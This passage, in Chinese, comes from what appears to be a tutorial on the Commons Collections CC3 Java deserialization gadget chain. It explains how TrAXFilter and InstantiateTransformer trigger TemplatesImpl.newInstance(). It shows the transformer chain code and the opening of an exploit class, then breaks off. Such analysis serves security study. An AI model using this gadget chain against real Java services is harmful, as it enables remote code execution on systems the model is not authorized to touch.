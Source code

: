 通过 chainedTransformer 类中的 transform 方法，先传入 TrAXFilter.class，然后在通过 InstantiateTransformer（存在序列化接口）的 transform 方法，对上面类和类的构造方法进行调用并将`TemplatesImpl Templates = new TemplatesImpl();`传入，触发 TrAXFliter 构造方法中的 Templates.newInstance() 方法。

```bash
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
```

[![](assets/1701612311-ce96ba3f8030d601f058a2f86ea3750f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235523-8305db28-20cc-1.png)

```bash
package EXP;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3InstantiateTransformer {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
```